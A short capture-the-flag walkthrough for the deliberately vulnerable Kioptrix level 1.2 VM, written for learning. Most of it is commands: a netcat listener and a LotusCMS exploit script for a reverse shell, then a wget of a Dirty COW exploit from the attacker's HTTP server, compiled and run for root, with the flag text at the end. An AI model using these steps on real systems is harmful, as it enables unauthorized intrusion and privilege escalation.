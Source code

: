 --------------------------------
# Author Shubham Ranpise
--------------------------------

# 11/december/2022

# Kioptrix level 1.2

----------------------------------------------------------------
# nmap scan (got website on port 80)
----------------------------------------------------------------
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)

----------------------------------------------------------------
# exploiting vulnerable lotus cms
----------------------------------------------------------------
-> git clone https://github.com/Hood3dRob1n/LotusCMS-Exploit.git   
-> nc -lvnp 6969       
-> ./lotusRCE.sh kioptrix3.com /  
-> $IP
-> $PORT
-> 1
get reverse shell

----------------------------------------------------------------
# exploit vulnerable kernal version to get root access AKA dirty cow
----------------------------------------------------------------
-> uname -r  //2.6.24-24-server vulnerable kernel version
exploit availble on exploitdb https://www.exploit-db.com/exploits/40839

-> python3 -m http.server 80
-> cd /tmp
-> wget http://10.0.2.9:80/40839.c

make interactive shell 
-> python -c 'import pty;pty.spawn("/bin/bash")'

compile and use exploit
-> gcc -pthread 40839.c -o exploit -lcrypt
-> ./exploit "newpassword"
-> su firefart

you got root
----------------------------------------------------------------
# flag
----------------------------------------------------------------
firefart@Kioptrix3:~# cat Congrats.txt
cat Congrats.txt
Good for you for getting here.
Regardless of the matter (staying within the spirit of the game of course)
you got here, congratulations are in order. Wasn't that bad now was it.

Went in a different direction with this VM. Exploit based challenges are
nice. Helps workout that information gathering part, but sometimes we
need to get our hands dirty in other things as well.
Again, these VMs are beginner and not intented for everyone. 
Difficulty is relative, keep that in mind.

The object is to learn, do some research and have a little (legal)
fun in the process.


I hope you enjoyed this third challenge.

Steven McElrea
aka loneferret
http://www.kioptrix.com


Credit needs to be given to the creators of the gallery webapp and CMS used
for the building of the Kioptrix VM3 site.

Main page CMS: 
http://www.lotuscms.org

Gallery application: 
Gallarific 2.1 - Free Version released October 10, 2009
http://www.gallarific.com
Vulnerable version of this application can be downloaded
from the Exploit-DB website:
http://www.exploit-db.com/exploits/15891/

The HT Editor can be found here:
http://hte.sourceforge.net/downloads.html
And the vulnerable version on Exploit-DB here:
http://www.exploit-db.com/exploits/17083/


Also, all pictures were taken from Google Images, so being part of the
public domain I used them.
